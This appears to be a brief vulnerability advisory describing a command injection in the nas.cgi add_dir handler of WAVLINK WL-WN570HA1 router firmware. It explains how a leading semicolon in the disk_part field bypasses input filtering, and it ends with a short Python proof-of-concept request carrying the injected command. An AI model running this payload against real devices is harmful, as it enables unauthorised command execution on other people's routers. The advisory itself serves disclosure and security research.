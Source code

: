 # command injection

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in nas.cgi/add_dir

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](9.png)

get value from disk_part

and check the ';', but if ';' is in the first of string, bypass and cause command injection

## POC
```
url = "http://192.168.0.1/cgi-bin/nas.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'add_dir', 'disk_part': + payload})
``` 
